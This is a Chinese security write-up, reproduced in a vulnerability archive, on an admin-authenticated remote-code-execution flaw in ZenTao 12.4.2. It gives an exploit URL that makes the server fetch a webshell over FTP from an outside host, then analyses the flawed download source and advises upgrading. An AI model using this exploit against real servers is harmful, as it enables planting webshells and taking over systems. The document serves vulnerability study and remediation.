# 禅道 12.4.2 后台管理员权限 Getshell 复现

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：禅道12.4.2 后台FTP下载RCE分析
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：管理员前提在标题，FTP下载目录可解析PHP和PATH_INFO配置明确，出站FTP及allow_url_fopen仍需补
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. version元数据错抽参考链接
2. 管理员前提在标题，FTP下载目录可解析PHP和PATH_INFO配置明确，出站FTP及allow_url_fopen仍需补
3. 包含完整父类源码但函数下划线/注释被Markdown反斜杠污染不能直接复制，结尾多花括号需核上下文
4. 给12.4.3首修建议但参考论坛非官方补丁
5. 与本清单112同漏洞而源码/安装/作者不同，属互补独立分析不宜全文去重
6. 网站下载原版地址准确

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/Uak631OOC48WcshaYnvsRQ>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Uak631OOC48WcshaYnvsRQ)

**上方蓝色字体关注我们，一起学安全！**

**作者：****口算 md5****@Timeline Sec  
**

**本文字数：1508**

**阅读时长：5～6min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

禅道是第一款国产的开源项目管理软件，她的核心管理思想基于敏捷方法 scrum，内置了产品管理和项目管理，同时又根据国内研发现状补充了测试管理、计划管理、发布管理、文档管理、事务管理等功能，在一个软件中就可以将软件研发中的需求、任务、bug、用例、计划、发布等要素有序的跟踪管理起来，完整地覆盖了项目管理的核心流程。

**0x02 漏洞概述**  

  

禅道 12.4.2 版本存在任意文件下载漏洞，该漏洞是因为 client 类中 download 方法中过滤不严谨可以使用 ftp 达成下载文件的目的。且下载文件存储目录可解析 php 文件，造成 getshell。

**0x03 影响版本**  

  

禅道≤ 12.4.2

**0x04 环境搭建**  

  

**环境：phpStudy + 禅道 12.4.2  
**

#### 1、官网下载禅道 12.4.2

因为我们要调试代码，所以下载源码，不用官方的集成环境，这里我用的是中文版的那个源码。

https://www.zentao.net/dynamic/zentaopms12.4.2-80263.html

#### 2、源码安装











这里我用的是 PATH\_INFO 的传参方式，默认的 get 形式也一样已利用漏洞，有兴趣可以自己研究下。  



设置密码

官方安装说明链接：

https://www.zentao.net/book/zentaopmshelp/101.html

**0x05 漏洞复现**  

  

**EXP：**

http://127.0.0.1/zentao/client-download-1-<**base64 encode webshell download link**\>-1.html

http://127.0.0.1/zentao/data/client/1/<**download link filename**\>

目录根据自己环境的不同自行修改下，base64 编码的那串是 ftp 链接  

此处为 ftp://192.168.5.104/a.php 的 base64 的编码  





**0x06 漏洞分析**  

  

该漏洞主要是因为 download 中的 downloadZipPackage 函数过滤不严谨，可以使用 ftp 绕过。

**1、传参调用分析**
------------

先看下怎么传参和调用的

在 index.php 的 loadModule() 断下，看下参数  





所以就进入到了 client 类的 download 方法，参数为 (1, 那串 base64,1)  



**2、dwonload 函数分析**
-------------------

函数 get()

```
public function download($version = '', $link = '', $os = '')
{
set\_time\_limit(0);
$result = $this->client->downloadZipPackage($version, $link);
if($result == false) $this->send(array('result' => 'fail', 'message' => $this->lang->client->downloadFail));
$client = $this->client->edit($version, $result, $os);
if($client == false) $this->send(array('result' => 'fail', 'message' => $this->lang->client->saveClientError));
$this->send(array('result' => 'success', 'client' => $client, 'message' => $this->lang->saveSuccess, 'locate' => inlink('browse')));
}
```

大概读一读代码

先是个 downloadZipPackage

然后是针对各种错误情况的返回

最后是个成功的回显

那么重点就来到了 downloadZipPackage  

```
public function downloadZipPackage($version, $link)
{
$decodeLink = helper::safe64Decode($link);
if(preg\_match('/^https?\\:\\/\\//', $decodeLink)) return false;

return parent::downloadZipPackage($version, $link);
}
```

这里就是解个 base64，然后判断下是否是 http 的，然后就返回它父类的同名方法的返回结果了  



可以看到 ftp 的链接成功绕过了正则，进入到了父类同名函数

```
/\*\*
\* Download zip package.
\* @param $version
\* @param $link
\* @return bool | string
\*/
public function downloadZipPackage($version, $link)
{
ignore\_user\_abort(true);
set\_time\_limit(0);
if(empty($version) || empty($link)) return false;
$dir = "data/client/" . $version . '/';
$link = helper::safe64Decode($link);
$file = basename($link);
if(!is\_dir($this->app->wwwRoot . $dir))
{
mkdir($this->app->wwwRoot . $dir, 0755, true);
}
if(!is\_dir($this->app->wwwRoot . $dir)) return false;
if(file\_exists($this->app->wwwRoot . $dir . $file))
{
return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
}
ob\_clean();
ob\_end\_flush();


$local = fopen($this->app->wwwRoot . $dir . $file, 'w');
$remote = fopen($link, 'rb');
if($remote === false) return false;
while(!feof($remote))
{
$buffer = fread($remote, 4096);
fwrite($local, $buffer);
}
fclose($local);
fclose($remote);
return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
}
}
```

父类这个就没啥了，就是个正常的下载，写文件  

路径是 $dir = "data/client/" . $version . '/';

**0x07 修复方式**  

  

1、升级到禅道 12.4.3 及之后的版本

```
参考链接：
```

https://www.t00ls.net/redirect-58415.html#lastpost  

Timeline Sec 发起了一个读者讨论 1、复现讨论 2、期待文章 3、点赞支持


  


**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
